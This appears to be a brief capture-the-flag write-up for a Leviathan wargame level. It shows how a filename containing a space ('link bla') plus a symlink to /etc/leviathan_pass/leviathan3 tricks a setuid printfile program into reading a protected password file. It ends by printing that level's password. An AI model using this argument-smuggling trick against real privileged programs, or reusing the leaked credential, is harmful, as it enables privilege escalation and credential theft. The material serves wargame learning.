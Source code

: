 # leviathan level3 Solution

we will create link file for the password file in the name "link"
`ln -sf /etc/leviathan_pass/leviathan3 link`.
then, we will create file which named "link bla".
`touch "link bla"`
and then, we'll execute the printfile with our file:
`~/printfile "link bla"`.
also, we need to change the permission of our directory, that the user leviathan3 will be able to access files.
`chmod +x .`

the exploit based on the fact that the access function returns 0 for the file "link bla", because it's fine.

however, it than execute `/bin/cat link file`, which divided to 2 different commands.

![alt text](./images/level3.png)


**Flag:** ***`f0n8h2iWLP`*** 
